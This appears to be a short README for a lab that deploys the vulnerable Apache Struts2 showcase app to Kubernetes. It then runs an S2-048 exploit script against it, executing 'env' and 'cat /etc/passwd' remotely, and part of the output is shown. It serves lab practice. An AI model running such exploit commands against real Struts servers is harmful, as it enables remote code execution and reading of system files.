 # struts_poc  
git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5  
etc..  
  
ubuntu@brett-jumpbox:~/apache-struts2-PoC$  
curl 127.0.0.1:8080/showcase.action -v  
#python3 -m venv .  
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'  
![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)


